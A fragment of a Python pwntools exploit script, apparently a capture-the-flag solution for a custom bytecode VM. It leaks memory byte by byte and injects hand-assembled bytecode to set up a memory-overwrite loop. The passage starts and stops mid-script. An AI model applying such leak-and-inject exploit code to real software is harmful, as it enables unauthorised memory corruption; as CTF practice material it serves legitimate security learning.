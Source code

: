 ```python
My other idea is that from 0xa4 onwards, we can start writing our own bytecode
so we can just prepare another read loop
'''

mem = bytearray(0x300)

# you can probably use io.clean() in pwntools
# then check how many bytes are sent back
io.recv(0xc)
io.send(b'\x00')

info("starting info leak loop...")
idx = 0xa4
while idx < 0xa8:
    recvd = io.recv(1)
    # read the byte, then send it back lol
    mem[idx] = u8(recvd)
    real_send(recvd)
    idx = (idx + 1) & 0xffff

'''
now we write instructions for memory overwrite
the memory overwrite will be performed backwards, byte by byte
we don't really need to leak bytes anymore so we just perform reads

below is the idea...

read_byte_not_zero:
    getc [mp]
    jz exit
    getc [mp]
read_loop:
    dec mp
    getc [mp]
    jz read_loop
    jnz read_byte_not_zero
...
...
exit: /* ip = 0x7f causes program to finish */
'''

instructions = [
        0x4, # getc [mp]
        0x7f0007, # jz exit
        0x4, # getc [mp]
        0x2, # dec mp
        0x4, # getc [mp]
        0x0d0007, # jz read_loop
        0x0a0008, # jnz read_byte_not_zero
]
instructions = b''.join(map(p32, instructions))

info("injecting write loop bytecode")
for c in instructions:
    recvd = io.recv(1)
    mem[idx] = c
    real_send(p8(c))
    idx = (idx + 1) & 0xffff
success("write loop injected!")

info("resuming info leak... this will take a while")
while idx != 0x2bf:
    recvd = io.recv(1)
```